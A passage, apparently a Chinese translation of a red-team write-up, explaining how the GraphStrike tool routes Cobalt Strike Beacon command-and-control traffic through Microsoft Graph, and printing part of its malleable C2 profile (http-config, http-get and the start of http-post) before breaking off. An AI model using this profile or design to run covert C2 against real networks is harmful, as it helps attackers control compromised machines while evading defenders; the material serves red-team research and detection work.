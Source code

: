| **Statement** | **What** |
| --- | --- |
| header “header” | Store data in an HTTP header |
| parameter “key” | Store data in a URI parameter |
| print | Send data as a transaction body |
| uri-append | Append to URI |

与传统的 HTTP/HTTPS C2 的 Cobalt Strike 配置文件相比，GraphStrike 配置文件中的 http-config、http-get 和 http-post 部分非常简单。例如，Beacon 在其请求中没有定义要使用的 “header” 值，因为我们必须在运行时使用当前的访问令牌手动组装标头。这种简化的配置文件使得在 GraphLdr 设置的被钩住的函数中后续操作 Beacon 数据变得容易。

实际上，GraphStrike 并不真正需要 http-config 块，因为它控制了 Cobalt Strike Web 服务器如何响应请求。在 GraphStrike 模型中， TS 实际上是在响应来自 GraphStrike 服务器而不是 Beacon 的请求，因此所有这些通信都是在本地完成的，不需要任何形式的隐蔽或秘密行动。

在查看 http-get 和 http-post 块时，我们无法在配置文件中指定实际的 URI，因为每个 Beacon 都需要一个唯一的 URI，而这将在运行时创建。关于 Beacon 元数据或会话 ID 的任何额外、不必要的操作都是我们以后在 GraphStrike 服务器端要处理的事情，所以我们可以保持简单。Beacon 元数据是一个二进制块，但我们可以对其进行 base64url 编码，以便将其附加到 http-get 请求的 URI 中。会话 ID 可以以未经转换的形式附加到 http-post 请求的 URI 中。

在 TS 任务和 Beacon 输出方面，当 TS 有针对 Beacon 的任务时，我们指定它应该只是 “打印” 任务，或将其发送到响应的正文中。我们还不会操作或混淆这些数据（它们只是加密的二进制块）。类似地，当 Beacon 具有来自已完成任务的输出时，我们将指示它 “打印” 该输出，并将其以未经转换的形式发送到 http-post 请求的正文中。综合起来，GraphStrike 配置文件的 http-get 和 http-post 部分如下所示：

```plain
http-config {
    # This section all relates to how the Cobalt Strike web server responds.
    # It's all irrelevant for GraphStrike, since the TS is just responding to the GraphStrike server's requests.
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=10, max=100";
    header "Connection" "Keep-Alive";
}

http-get {

    # We just need our URI to be something unique and recognizable in order for GraphStrike to parse out values
    set uri "/_";
    set verb "GET";

    client {

        metadata {
            base64url;
            uri-append;
        }
    }

    server {

        output {   
            print;
        }
    }
}

http-post {

    # We just need our URI to be something unique and recognizable in order for GraphStrike to parse out values
    set uri "/-_";
    set verb "POST";

```